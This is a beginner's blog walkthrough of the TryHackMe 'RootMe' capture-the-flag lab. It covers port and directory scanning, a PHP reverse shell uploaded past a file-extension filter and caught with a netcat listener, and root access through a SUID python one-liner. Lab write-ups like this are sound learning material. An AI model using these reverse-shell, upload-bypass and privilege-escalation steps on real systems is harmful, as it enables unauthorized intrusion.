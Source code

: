 ```yaml
---
id: 3804
title: TryHackMe RootMe Walkthrough
published: 2021-04-02
type: post
url: /tryhackme-rootme/
image: https://images.unsplash.com/photo-1505840245328-1d903e2eba8d?ixid=MnwxNTI0MzJ8MHwxfGFsbHx8fHx8fHx8fDE2MTczNDc0MTA&ixlib=rb-1.2.1&fm=jpg&q=85&fit=crop&w=1945&h=2560
categories:
    - Cyber
tags:
    - TryHackMe
    - Capture The Flag
    - CyberSec
---
```


I’m still on the Complete Beginner learning path from TryHackMe, so this is my first venture outside into their library of CTF’s.

This is a beginner ‘easy’ game, their description reads *a CTF for beginners, can you root me?* If you’re unaware, root means top-level access, like super admin or master-of-everything.

When you gain root-level access, you own that machine, so install, delete, copy or whatever else you want, it’s yours.

Let’s get started on RootMe

## Reconnaissance

First up, let’s *scan the machine, how many ports are open?*

```shell
$ nmap -A -p- $ip # CTRL+C - Took too long.

$ nmap -T4 -A $ip

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

```

So, second `nmap` scan found `2` ports open, `ssh` &amp; `http`. Great, so that tells me it’s a web server, a non-secure one at that, and it’s able to have remote connection.

Next, *what version of Apache is running?*

Our scan has already pulled that information, `2.4.29`. I’m thinking maybe I could look this verion up and find known exploit.

*What service is running on port 22?*

Easy again, got that from scan, `ssh.`

*Find directories on the web server using the GoBuster tool. Hint: `gobuster dir -u <ip> -w WORDLIST_PATH`.*

Hm, this is a new tool, let’s first `man` it and see if I have it on `kali`.

```shell
$ man gobuster # Not found.

$ sudo apt install gobuster

$ gobuster --help

$ apt-cache show gobuster

Directory/file & DNS busting tool written in Go Gobuster is a tool used to brute-force URIs including directories and files as well as DNS subdomains.

```

So it’s `ls` but for enurmeration? Cool.

After reading [kali tools](https://tools.kali.org/web-applications/gobuster), I’ve got a wordlist to use, let’s go!

```shell
$ gobuster dir -u 10.10.173.20 -w /usr/share/wordlists/dirb/common.txt

/.hta
/.htpasswd
/.htaccess
/css
/index.php
/js
/panel # upload page
/server-status
/uploads

```

While that’s running, I remembered I can go to `<ip>` to view frontend of the website… Nothing there, just a game landing page.

Now the scan has finished, let’s try each page of the website via going `<ip>/<page>`. Normal stuff accept the `/panel` page. Strange file upload and gives a spanish error msg, a bit odd, I’ll remember this for later.

…or right now, w*hat is the hidden directory?* `/panel/`

## Getting A Shell

Okay, now it’s about shell access, i.e. stepping into the machine and gaining basic level access.

Let’s read the question, *find a form to upload and get a **reverse shell**, and find the flag.* Hint: *Search for “**file upload bypass**” and “**PHP reverse shell**“.*

Cool, first time using a reverse shell, still unsure what/how of this, but let’s learn by searching first recommendation.

File upload bypass, means, due to poor validation (secuirty) allows uploaded files to run by user or server.

Searching `PHP reverse shell` shows what looks like a [popular github page](https://github.com/pentestmonkey/php-reverse-shell). Let’s `git clone` it and take look.

```shell
$ mkrdir TryHackMe-rootme

$ git clone <https://github.com/pentestmonkey/php-reverse-shell.git> TryHackMe-rootme

$ nano php-reverse-shell.php

```

I’m taking the time to read the program (usually I don’t). It’s recommending to go to [pentestmonkey.net](http://pentestmonkey.net/) for help, looks like a great resource!

So `netcat` needs to be running to listen and ‘catch’ the reverse shell. Cool. Let’s setup `nc`, edit and upload the file

```shell
$ip = '10.10.10.10';  // CHANGE THIS
$port = 4444;       // CHANGE THIS

$ sudo nc -vlnp 4444

```

After tinkering around, not sure why, but the file extension of the reverse shell file had to be changed from `.php` to `.php5` … my guess is this tells the website it’s PHP version 5 which it can work with? Not 100% sure.

I started cheating by the way from this [video](https://youtu.be/eDGI1RCkp8E). Just to get past this step.

Once the reverse shell was uploaded, I went to `<ip>/uploads/` to execute the file and `nc` picked it up, wow! My heart actually dropped a bit, like this is remote access from an uploaded file. WTH!

So I had to cheat a bit more on this one, annoying as I could’ve figured it out if I had more patience.

```shell
$ find / -type f -name user.txt 2>/dev/null

/var/ww/user.txt

$ cat /var/ww/user.txt

THM{*************************}

```

## Privilege Escalation

*Now that we have a shell, let’s escalate our privileges to root.*

Cool. Let’s go.

*Search for files with SUID permission, which file is weird?*

```shell
$ find / -user root -perm /4000 2>/dev/null

```

This is hard, I’m not sure what I’m looking for.

I used the input field from TryHackMe `/***/***/******` and just guessed which directory’s based on characters, `/usr/bin/python`.

Okay, next, *find a form to escalate your privileges, search for gtfobins.*

Found [gtfobins](https://gtfobins.github.io/), searched python and looked for SUID.

…time passes.

Look, I’ll be honest, I’ve got root and I have no idea what made it happen. I don’t understand python so it seems like magic right now. Anyway, here are the steps I took (or followed):

```shell
$ /bin/bash

python -c 'import pty;pty.spawn ("/bin/bash")'

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

```

Now I’ve got the `#` let’s search for the missing file.

```shell
$ find / -type f -name root.txt 2>/dev/null

/root/root.txt

$ cat /root/root.txt

THM{*************************}

```

Well, that’s the last flag, we did it! Thanks to [Yesspider](https://youtu.be/eDGI1RCkp8E) for their walkthrough video.

Looking back this is a good beginner game, even if it felt really hard and lead me to cheat, I use the term ‘cheating’ loosely as it’s still learning. If I get so stuck I want to give up, it’s better to look at a walkthrough than stop altogether.

I’m getting comfortable running some `nmap` which is great, and then sifting through information to find what I’m after.

I learnt about `gobuster`, a tool I want to use more! It felt great using a reverse shell and understanding the concept even if I didn’t understand 100% of what I was following along with. Something about setting up `nc` to listen and catch information felt amazing!

I loved used `find` one of the most basic commands which still havent clicked for me. Lastly using Python, now to be honest all of that went right over my head. But I’m using it, being more familiar, so it’s a start!

Hope you enjoyed this CTF Walkthrough.

If you have feedback, please send me a message via [Twitter](https://twitter.com/mrashleyball).

This is Day 6 of [\#100DaysOfHacking](https://mrash.co/100daysofhacking/), subscribe to the [newsletter](https://go.mrash.co/newsletter) to see the journey!

Happy Hacking.